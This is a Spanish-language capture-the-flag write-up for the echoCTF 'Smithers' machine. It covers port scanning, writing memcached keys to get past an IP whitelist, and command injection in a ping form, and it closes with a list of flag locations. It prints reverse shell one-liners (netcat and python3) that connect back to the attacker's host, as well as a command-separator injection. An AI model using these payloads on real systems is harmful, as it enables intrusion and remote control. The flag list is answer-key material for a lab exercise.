

---
tags:
  - Abusing memcache write item permission
  - Command Injection
---

# Smithers <!-- omit from toc -->

Write-up de la máquina Smithers de [echoCTF](https://echoCTF.red).


## Índice <!-- omit from toc -->

- [Introducción](#introducción)
  - [Estadísticas](#estadísticas)
- [Reconocimiento](#reconocimiento)
  - [Escaneo de host](#escaneo-de-host)
    - [Escaneo completo de puertos](#escaneo-completo-de-puertos)
    - [Escaneo específico](#escaneo-específico)
- [Enumeración](#enumeración)
  - [Servicios](#servicios)
    - [http - 10888](#http---10888)
      - [Manual](#manual)
    - [memcached - 11211](#memcached---11211)
      - [Manual](#manual-1)
- [Explotación](#explotación)
  - [Abuso de escritura de items en `memcached`](#abuso-de-escritura-de-items-en-memcached)
    - [Pasos previos | Preparación](#pasos-previos--preparación)
      - [Método 1](#método-1)
      - [Método 2](#método-2)
    - [Ejecución](#ejecución)
- [Ubicación de banderas](#ubicación-de-banderas)

## Introducción

### Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Smithers](https://echoctf.red/target/5) |
| Dificultad | Basic |
| Banderas | 7 (5 other, env, root) |
| Puntos | 8,100 pts (other/1,500 pts, other/1,000 pts, other/1,000 pts, other/1,000 pts, other/1,000 pts, env/900 pts, root/1,500 pts) |
| Descripción / Pistas |  Like Smithers this server will serve you well only if you manage to enter it's memcached store. The memcache service you just discovered on smithers.echocity-f.com/10.0.160.142:11211 has a hidden flag. |

## Reconocimiento

### Escaneo de host

#### Escaneo completo de puertos

```bash
❯ nmap -T5 -open -vvv --min-rate=5000 -p- -n -Pn -oG nmap/all_ports $BOX_TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 19:45 CDT
Initiating Connect Scan at 19:45
Scanning 10.0.100.142 [65535 ports]
Discovered open port 11211/tcp on 10.0.100.142
Discovered open port 10888/tcp on 10.0.100.142
Completed Connect Scan at 19:45, 21.90s elapsed (65535 total ports)
Nmap scan report for 10.0.100.142
Host is up, received user-set (0.14s latency).
Scanned at 2021-10-14 19:45:20 CDT for 22s
Not shown: 53830 closed ports, 11703 filtered ports
Reason: 53830 conn-refused and 11703 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE  REASON
10888/tcp open  unknown  syn-ack
11211/tcp open  memcache syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 22.00 seconds
```

#### Escaneo específico

```bash
❯ nmap -sCV -p 11211,10888 -oN nmap/targeted $BOX_TARGET
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 19:46 CDT
Nmap scan report for 10.0.100.142
Host is up (0.14s latency).

PORT      STATE SERVICE   VERSION
10888/tcp open  http      nginx
|_http-title: Network Tools
11211/tcp open  memcached Memcached 1.5.12 (uptime 36084 seconds)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

## Enumeración

### Servicios

#### http - 10888

##### Manual

Al navegar al sitio se visualiza algún tipo de servicio que pone a disposición utilidades de red, pero de acuerdo con el mensaje que se arroja se puede suponer que para tener acceso se requiere estar en algún tipo de lista blanca que se encuentra configurada en el servidor. Tratando de hacer un bypass básico a esta validación se decidió jugar un poco con cabeceras como [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) entre otras, para ver si la respuesta por parte del servidor cambiaba de algún modo, sin éxito aparente.


#### memcached - 11211

##### Manual

Siendo permitida la conexión directa mal socket mediante `netcat` se permite la obtención de datos existentes en el servidor mediante comandos propios de `memcached`, datos como versión, estatus, slabs, items, entre otros.

**Comandos útiles**

*Después de entablar la conexión*

```bash
version # Obtener versión
stats # Obtener estatus
stats slabs # Obtener slabs
stats items # Obtener items de slabs con información
stats cachedump <numero_de_item> 0 # Obtener nombres de llaves (0 es para no limitar el tamaño del output)
get <nombre_de_item> # Obtener información guardada de item
```

*Referencia: https://book.hacktricks.xyz/pentesting/11211-memcache*


Recalcando que para la obtención del `número de item` se puede extraer de la columna señalada del output generado por la obtención de los items.

## Explotación

Habiendo encontrado que se puede exfiltrar información mediante la interacción con el servicio de `memcached` faltaría validar si también se puede configurar información en el servicio.

### Abuso de escritura de items en `memcached`

#### Pasos previos | Preparación

Dentro de la enumeración se encontró que la versión de `memcached` y la información contenida al navegar al sitio expuesto coincidía por lo que bajo la suposición de que estos dos interactuan entre sí y de no haber encontrado el item `REMOTE_ADDR` como lo indica el sitio web se puede intentar guardando este item con el valor de la IP correspondiente.

**Sintaxis**

```bash
set key flags exptime bytes
value 
```

**Uso**

```bash
set REMOTE_ADDR 0 2592000 4
test
```

*Referencia: https://www.tutorialspoint.com/memcached/memcached_set_data.htm*

Al tener problemas de interacción directa para configurar los valores se encontraron otras alternativas funcionales.

##### Método 1

**Comando**

`echo -e 'set REMOTE_ADDR 0 2592000 4\r\ntest\r' | nc -nv -w 1 10.0.100.142 11211`



1. Ejecución.
2. Validación de existencia (cuando antes no se desplegaba el item 1).
3. Obtención de valor de valor.

##### Método 2

El paquete `libmemcached-tools` cuenta con utilidades para interactuar con conexiones de `memcached`. Haciendo uso de `memccp` se puede copiar un valor pasando como parámetro el archivo con el valor que se piensa ocupar y haciendo uso de `memcat` para la visualización de los valores de los items.

```bash
sudo apt install libmemcached-tools
echo -n "test2" > REMOTE_ADDR
memccp --servers=10.0.100.142 REMOTE_ADDR
memccat --servers=10.0.100.142 REMOTE_ADDR
```


*Referencia: https://www.hackingarticles.in/penetration-testing-on-memcached-server/*

#### Ejecución

Configurando la variable que concuerda con ambos servicios y añadiendo la asignada por la vpn el output de la página resulta diferente.


A partir de este punto se puede observar que se habilita un formulario para realizar un ping a un host, lo que a nivel de código se puede reducir en algo como:

```php
$ip = "valor proporcionado por formulario"
system('ping ' . $ip);
```

Lo que al final se reduciría en ejecución remota de comandos, ya que en consola podemos usar "separadores" para ejecutar múltiples comandos en una misma instrucción, lo que a nivel de código se ejemplificaría en `ping 127.0.0.1; whoami`.


Al ver el servicio lo ejecuta directamente `root`, al obtener una reverse shell, no se requiriría proceso de escalación de privilegios.

Al realizar la prueba para obtener una reverse shell con netcat usando `;nc -e /bin/bash 10.10.0.26 1234` no se ejecutó satisfactoriamente por lo que se optó intentar con diferentes opciones, siendo `python3` el funcional:

```bash
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.26",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```


## Ubicación de banderas

1. Llave - valor de `memcached`.
2. `/var/lib/nginx/html/network-tools.php` x 3.
3. `/`
4. Extrayendo las variables de entorno de los procesos en ejecución con `strings /proc/*/environ | grep ETSCTF`.
5. `/root`.